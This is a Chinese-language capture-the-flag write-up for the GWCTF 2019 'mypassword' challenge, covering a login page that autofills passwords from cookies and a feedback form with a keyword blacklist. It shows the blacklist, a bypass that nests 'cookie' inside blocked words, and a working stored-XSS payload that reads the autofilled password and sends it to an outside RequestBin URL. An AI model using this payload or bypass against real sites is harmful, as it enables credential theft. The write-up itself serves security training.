



# [GWCTF 2019]mypassword

`login.js`

```javascript
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}
}
```

可以看出，用户名和密码都填入了表单
 登录成功后有一个`feedback.php`的用户反馈





注释代码

```


    <!--
                if(is_array($feedback)){
                    echo "<script>alert('反馈不合法');</script>";
                    return false;
                }
                $blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
                foreach ($blacklist as $val) {
                    while(true){
                        if(stripos($feedback,$val) !== false){
                            $feedback = str_ireplace($val,"",$feedback);
                        }else{
                            break;
                        }
                    }
                }
                -->
```

可以看出对输入的内容有过滤，但是只是替换为空很容易绕过，例如是incookieput的话，替换后会剩下input。由于login.js中有记录密码的功能，所以我们可以构造一个表单在feedback页面提交，在 http://http.requestbin.buuoj.cn  （RequestBin提供了一个URL，该URL将收集对其发出的请求，首页点击create a requestbin）页面接收flag

```javascript
    <incookieput type="text" name="username">
    <incookieput type="password" name="password">
    <scrcookieipt scookierc="./js/login.js"></scrcookieipt>
    <scrcookieipt>
        var psw = docucookiement.getcookieElementsByName("password")[0].value;
        docucookiement.locacookietion="http://http.requestbin.buuoj.cn/11uk8c71/?a="+psw;
    </scrcookieipt>
```

